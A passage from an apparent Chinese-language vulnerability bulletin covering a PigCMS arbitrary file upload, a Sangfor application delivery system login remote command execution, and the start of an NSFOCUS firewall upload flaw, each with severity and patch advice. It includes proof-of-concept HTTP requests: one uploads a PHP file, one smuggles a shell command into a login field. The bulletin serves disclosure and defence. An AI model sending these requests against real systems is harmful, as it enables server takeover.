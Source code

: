 **漏洞描述：**PigCMS action_flashUpload 方法中存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取到服务器权限。

**漏洞等级：**高

**漏洞类型：****0day/1day/nday**

**影响版本：**

**漏洞详情：**



```
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----aaa

------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv

<?php phpinfo();?>
------aaa
```





**处置建议：**升级版本或安装厂商官方补丁。

#####             14.     **深信服应用交付管理系统login远程命令执行漏洞**

**漏洞描述：**深信服 应用交付管理系统 login 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令。

**漏洞等级：**高

**漏洞类型：****0day/1day/nday**

**影响版本：**深信服 应用交付管理系统 7.0.8-7.0.8R5

**漏洞详情：**



```
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```





![img](https://wdcdn.qpic.cn/MTY4ODg1NDI4MDM2MjE0OQ_903157_-Zf3DXXmPYl12IC9_1691813636?w=1120&h=509&type=image/png)

**处置建议：**等待官方发布最新版本及时更新，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。

#####             15.     **绿盟NF下一代防火墙任意文件上传漏洞**

**漏洞描述：**绿盟 SSLVPN 存在任意文件上传漏洞，攻击者通过发送特殊的请求包可以获取服务器权限，进行远程命令执行。
